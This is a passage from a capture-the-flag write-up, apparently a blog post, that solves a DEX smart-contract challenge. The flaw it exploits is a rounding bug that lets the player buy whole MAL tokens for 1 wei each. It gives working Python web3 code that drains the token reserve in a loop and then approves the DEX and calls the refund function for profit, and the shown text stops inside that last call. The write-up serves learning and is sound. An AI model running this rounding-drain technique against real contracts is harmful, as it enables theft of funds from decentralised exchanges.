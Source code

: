 Having looked at all the code, we can clearly see the exploit in the use of Rounding, allowing us to swap very small amounts of ETH into a full token, and then refunding them all back to pass the challenge.

> In this process I chose to swap ETH for MAL since it had a better exchange ratio, but HLS should also work since it also rounds up for positive numbers.
{: .prompt-tip }

We can use this function to buy all the MAL, using 1 wei per MAL:
```py
nonce = w3.eth.get_transaction_count(player_addr)

def buy_mal():
	global nonce

	transaction = heliosDEX.functions.swapForMAL().build_transaction({
		'from': player_addr,
		'chainId': w3.eth.chain_id,
		'value': w3.to_wei('1', 'wei'),
		'gas': 200000,
		'gasPrice': w3.to_wei('0.1', 'wei'),
		'nonce': nonce,
	})
	nonce += 1
	signed_tx = w3.eth.account.sign_transaction(transaction, player_key)
	tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
	return(tx_hash)
```

And we can just run a loop until we buy all the MAL!
```py
prev_wei_balance = w3.eth.get_balance(player_addr)
prev_mal_balance = malakar_essence.functions.balanceOf(player_addr).call()
print(f'Current Balance: {prev_mal_balance} MAL {w3.from_wei(prev_wei_balance, 'ether')} ETH')

while True:
	if get_reserve_mal() == 0:
		print("Finished buying all MAL")
		break
	tx_hash = buy_mal()
	print(f'Transaction hash: {tx_hash.hex()}')

post_wei_balance = w3.eth.get_balance(player_addr)
post_mal_balance = malakar_essence.functions.balanceOf(player_addr).call()
print(f'Current Balance: {post_mal_balance} MAL {w3.from_wei(post_wei_balance, 'ether')} ETH')
```

After the contract runs out of MAL reserves, we allow it to make transactions in our name, call the refund function and check our new balance:

```py
approve_tx = malakar_essence.functions.approve(helios_addr, post_mal_balance).build_transaction({
    'from': player_addr,
    'gas': 200000,
    'gasPrice': w3.to_wei('0.1', 'wei'),
    'nonce': nonce,
    })
nonce += 1
signed_approve_tx = w3.eth.account.sign_transaction(approve_tx, player_key)
approve_tx_hash = w3.eth.send_raw_transaction(signed_approve_tx.raw_transaction)

refund_tx = heliosDEX.functions.oneTimeRefund(malakar_essence_address, post_mal_balance).build_transaction({
    'from': player_addr,
    'gas': 200000,
    'gasPrice': w3.to_wei('0.1', 'wei'),
    'nonce': nonce
```
